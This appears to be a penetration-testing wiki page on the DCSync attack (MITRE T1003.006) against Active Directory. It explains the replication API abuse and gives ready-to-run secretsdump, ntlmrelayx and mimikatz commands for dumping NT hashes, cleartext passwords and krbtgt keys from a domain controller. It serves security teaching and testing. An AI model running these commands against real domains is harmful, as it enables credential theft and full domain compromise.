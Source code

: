 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1003.006
---
```


# DCSync

## Theory

DCSync is a technique that uses Windows Domain Controller's API to simulate the replication process from a remote domain controller. This attack can lead to the compromise of major credential material such as the Kerberos `krbtgt` keys used legitimately for tickets creation, but also for [tickets forging](../../kerberos/forged-tickets.md) by attackers. The consequences of this attack are similar to an [NTDS.dit dump and parsing](ntds.dit.md) but the practical aspect differ. **A DCSync is not a simple copy & parse of the NTDS.dit file**, it's a `DsGetNCChanges` operation transported in an RPC request to the DRSUAPI (Directory Replication Service API) to replicate data (including credentials) from a domain controller.

**This attack requires domain admin privileges** to succeed (more specifically, it needs the following extended privileges: `DS-Replication-Get-Changes`  and `DS-Replication-Get-Changes-All`). Members of the Administrators, Domain Admins, Enterprise Admins, and Domain Controllers groups have these privileges by default. In some cases, over-privileged accounts can be abused to [grant controlled objects the right to DCSync](../../access-control-entries/grant-rights.md).

{% hint style="info" %}
A setting exists in the account policy or when creating users telling the domain controller to store the user's password using reversible encryption instead of irreversible hashing. This allows attackers to retrieve the passwords in clear-text.
{% endhint %}

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
On UNIX-like systems, this attack can be carried out with [Impacket](https://github.com/SecureAuthCorp/impacket/)'s [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) which has the ability to run this attack on an elevated context obtained through [plaintext password stuffing](../bruteforcing/stuffing.md), [pass-the-hash](../../ntlm/pth.md) or [pass-the-ticket](../../kerberos/ptt.md).

```bash
# using a plaintext password
secretsdump -outputfile 'something' 'DOMAIN'/'USER':'PASSWORD'@'DOMAINCONTROLLER'

# with Pass-the-Hash
secretsdump -outputfile 'something' -hashes 'LMhash':'NThash' 'DOMAIN'/'USER'@'DOMAINCONTROLLER'

# with Pass-the-Ticket
secretsdump -k -outputfile 'something' 'DOMAIN'/'USER'@'DOMAINCONTROLLER'
```

The secretsdump script creates the following files.

| File       | Content                                                   |
| ---------- | --------------------------------------------------------- |
| .ntds      | LM and NT password hashes                                 |
| .cleartext | Passwords stored using reversible encryption              |
| .kerberos  | Kerberos keys (DES, AES128 and AES256)                    |
| .sam       | Domain controller's [SAM secrets](sam-and-lsa-secrets.md) |
| .secrets   | Domain controller's [LSA secrets](sam-and-lsa-secrets.md) |

This attack can also be operated with a [relayed NTLM authentication](../../ntlm/relay.md), but only if the target domain controller is vulnerable to [Zerologon](../../netlogon/zerologon.md) since the DRSUAPI always requires signing.

```bash
# target vulnerable to Zerologon, dump DC's secrets only
ntlmrelayx.py -t dcsync://'DOMAINCONTROLLER'

# target vulnerable to Zerologon, dump Domain's secrets
ntlmrelayx.py -t dcsync://'DOMAINCONTROLLER' -auth-smb 'DOMAIN'/'LOW_PRIV_USER':'PASSWORD'
```
{% endtab %}

{% tab title="Windows" %}
On Windows, [mimikatz](https://github.com/gentilkiwi/mimikatz) (C) can be used to operate a DCSync and recover the `krbtgt` keys for a [golden ticket attack](../../kerberos/forged-tickets.md#golden-ticket) for example. For this attack to work, the following mimikatz command should run in an elevated context (i.e. through runas with plaintext password, [pass-the-hash](../../ntlm/pth.md) or [pass-the-ticket](../../kerberos/ptt.md)).

```bash
# Extract a specific user, in this case the krbtgt
lsadump::dcsync /dc:$DomainController /domain:$DOMAIN /user:krbtgt

# Dump everything (printed in a short and readable format)
lsadump::dcsync /dc:$DomainController /domain:$DOMAIN /all /csv
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://attack.stealthbits.com/privilege-escalation-using-mimikatz-dcsync" %}
